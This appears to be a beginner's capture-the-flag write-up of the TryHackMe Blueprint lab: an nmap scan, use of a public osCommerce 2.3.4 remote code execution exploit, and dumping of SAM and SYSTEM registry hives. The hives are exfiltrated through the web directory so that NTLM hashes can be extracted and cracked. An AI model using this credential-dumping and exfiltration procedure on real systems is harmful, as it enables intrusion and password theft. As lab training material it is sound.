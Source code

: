 ## TryHackMe - Blueprint Methodology

This is the attack methodology I used for TryHackMe's Blueprint box.
I have based this document on the Intrusion Kill Chain by Lockheed Martin:
Reconnaissance > Weaponization > Delivery > Exploitation > Installation > Command & Control > Actions on Objectve

---
### Environment
#### Operating System
Latest kali-VM rolling update
#### Tools
Python scripts

### Methodology
#### Objectives/Flags
 "Lab" user NTML hash decrypted
 root.txt
#### Reconnaissance
First I checked for open ports using a basic nmap scan
```bash
nmap -t4 <TargetIP>
  PORT      STATE    SERVICE
  80/tcp    open     http
  135/tcp   open     msrpc
  139/tcp   open     netbios-ssn
  443/tcp   open     https
  445/tcp   open     microsoft-ds
  512/tcp   filtered exec
  1152/tcp  filtered winpoplanmess
  1875/tcp  filtered westell-stats
  3306/tcp  open     mysql
  4662/tcp  filtered edonkey
  7741/tcp  filtered scriptview
  8080/tcp  open     http-proxy
  9010/tcp  filtered sdr
  20005/tcp filtered btx
  26214/tcp filtered unknown
  27000/tcp filtered flexlm0
  49152/tcp open     unknown
  49153/tcp open     unknown
  49154/tcp open     unknown
  49158/tcp open     unknown
  49159/tcp open     unknown
  49160/tcp open     unknown
```
I could see some HTTP open ports and decided to see what was accessible
```
http://<TargetIP>:8080/
	http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
I could determine the framework being used for the commerce page was oscommerce-2.3.4. Using this information I visited Exploit-DB to see what was available.
```
https://www.exploit-db.com/exploits/50128
```
#### Exploitation
Using the remote-code-execution exploit from the DB, the target was attacked
```
python 50128.py http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
Once the attack was successful, I now had RCE shell access into the target.

#### Actions on Objective
I started by trying to determine the nature of the host and explore it's file directories
```
whoami
  nt autheority\system

DIR C:\users
  Administrator
    C:\users\Administrator\Desktop\root.txt.txt
      more C:\users\Administrator\Desktop\root.txt.txt
        THM{*}
  DefaultAppPool
  Lab
```
The file-system was Windows and exploring userfiles I happend to come accross my first objective ```root.txt.txt```. According to my mentor the filename was done this way to obfuscate it from broad-searches.
My next objective was to locate and extract the NTML hash of the "Lab" user.

I must admit I didn't know what NTML was or where it was found however I had a reasonable understanding through hack-sims that this was going to be a hashed password found somewhere on the system. After some googling I was able to understand that this hash was most likley going to be located in the Windows "SAM" file generally located at ```C:\Windows\system32\config\SAM```. (source: https://security.stackexchange.com/questions/113295/location-of-password-hashes-on-a-windows-local-machine)
```
DIR C:\Windows\system32\config\
```
I could see that the file existed on the system and my goal was to now try and exfiltrate this file/data out of the target to my local machine. I had a lot of trial and error trying to get at this file. Various failures included; printing it's contents, copying it to the visible HTTP directory, Uploading it to a local-http/ftp server.
Eventually I stubled upon a page which explained how this data could be exported from it's registry key. (source: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)
```
reg save hklm\system system
reg save hklm\sam sam
```
With the data exported out of the system-files I could now move them around without any system-protection. I moved these files to the visible HTTP directory.
```
copy <missing> http://<TargetIP>:8080/oscommerce-2.3.4/docs/
```
From my localhost I was able to save these files. My next step was to dump the hashes out of the files. Using the website I had found earlier I had to find a tool that was going to assit me.
```
python pwdump.py /home/kali/tools/TryHackMe/Blueprint/system /home/kali/tools/TryHackMe/Blueprint/sam
  Administrator:500:<hash>:<hash>:::
  Guest:501:<hash>:<hash>:::
  Lab:1000:<hash>:<hash>:::
```
Success, I've got the hash of the "Lab" user and now needed to decrypt this. I spent some time trying to mess with HashCat to crack it but after some more googling I was directed to Crackstation.
```
https://crackstation.net/
   Insert <hash> -> crack
     <password>
```
I spared my system it's resources and was able to instantly receive the cleartext password.

---
### After-action
#### What I've learned
This was the first "real" box that I've had a go at and had a blast from the whole experience. My mentor had helped me connect the dots on recconaissance and exploitaion through finding online resources/code. Once I was in, a majority of my frustrations was trying to understand what NTML was and more specifically how I was going to extract that information to my localhost. Lastly why burn the computing power when an online service can crack passwords for you?
#### What I would've done differently
Given that this was my first box, I was a bit messy with what I was actually doing on the target Machine. I had rebooted it by attempting to run arbitrary files and possibly executed programs in trial and error.
I definitely would like to record what actions I had taken (including timestamps?) and what failures I had run into for posterity/documenation.
Lastly, I should have spent the extra effort in removing the extracted system files from the export location and even the visible HTTP directory to reduce my footprint.
